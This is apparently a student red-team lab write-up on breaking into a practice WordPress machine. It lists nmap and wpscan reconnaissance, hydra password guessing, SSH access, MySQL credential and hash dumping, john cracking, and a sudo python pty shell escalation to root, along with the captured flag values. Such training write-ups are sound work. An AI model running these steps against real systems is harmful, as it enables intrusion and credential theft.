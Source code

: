 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

![nmapsvos](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/nmap-sv-os-110.png)

Nmap scan results for each machine reveal the below services and OS details:  

$ nmap -sV -O 192.168.1.110 
-- (The -O detection the operating system, and -sV a detailed study of ports to determine the version of services.)
           
- Target 1  
       Open Ports:
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbis Samba)
    - Port 445 (netbis Samba)

### The following vulnerabilities were identified on each target:
     - Critical and Vulnerabilities

- Target 1
  - Run wpscan enumerate username for on the target1 system. 
  - wpscan ![wpscan-username](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/wpscan-enumerate-usernames.png)

  - Run hydra and found michael's password. His      password is vulnerabilities. His password is incredibly weak same his username. 
  *** He would be a password with a minim of 8 characters, including uppercase, lowercase and special characters.

    ![michael-password](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/michael-password.png)

   -- python  (user steven to run python with sudo.)
   -- Database mysql wp_config.php
   -- Access the mysql database use for the site, password hashes and other confidential information. 

CVE-2013-0235 | vulnerabilities - 
CVE-2013-0235 | vulnerabilities - [CVE-pages](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2013-0235/)


### Exploitation
would be a password with a minimum of 8 characters, including uppercase,  lowercase and special characters.
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
 
- Target 1 

  -----Flag1
    - **Exploit Used**

      * Commands run: 
         - ssh username michael with Password. 
         - Open Port is 22 and run ssh    michael@192.168.1.110
         - cd /var/www/html
         - grep -ER flag1  
         - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
         
      ![flag1](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/grep-found-flag1.png)     

  -----Flag2 
   - **Exploit Used**
     - Commands run: 
          -  cd /var/www/
          - cat flag2.txt
          - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
 
      ![flag2](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/cat-flag2.txt.png)

  -----Flag3
   - **Exploit Used**
     - Use the mysql database
       - Commands Run:
         - still on ssh michael@192.168.1.110 
         - cd /var/www/html/wp_config.php (Found to connect to the mysql database and got the password.)
        - Mysql 
         - looked - show database, use wordpress, show tables, desc wp_posts
         - mysql - select post_title, post_content from wp_posts where post_title like "flag%"; 
         - found flag3 and flag4
         - flag3{afc01ab56b50591e7dccf93122770cd2}
         - found wp_users michael and steven included hash.

      ![flag3](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/flag3-from-wp_posts.png)


      ![hash](https://github.com/iastoneCO/Final-Project/blob/93cd4e2d67f8a5769c9543e4f8ace71df13504d0/Images/show-select-wp_users_hash-wordpress.png)  


  -----Flag4
   - **Exploit Used**
      - Commands run: python with sudo.
        - Copied/Pasted hash the wp_hash.txt
        - run john /root/Document/wp_hash.txt
        -Allow me to use python sudo to execute a shell program to access the root steven's account. 
        - cd /root directory and found flag4.txt
        - sudo python -c 'import pty;pty.spawn("bin/bash");' 
        - cat flag4.txt
        flag4{715dea6c055b9fe3337544932f2941ce}

    ![tables-wp_posts](https://github.com/iastoneCO/Final-Project/blob/22e32e8015f891588285887560c5ead6927187f2/Images/raven-steven-found-cat-flag4-file.png)  
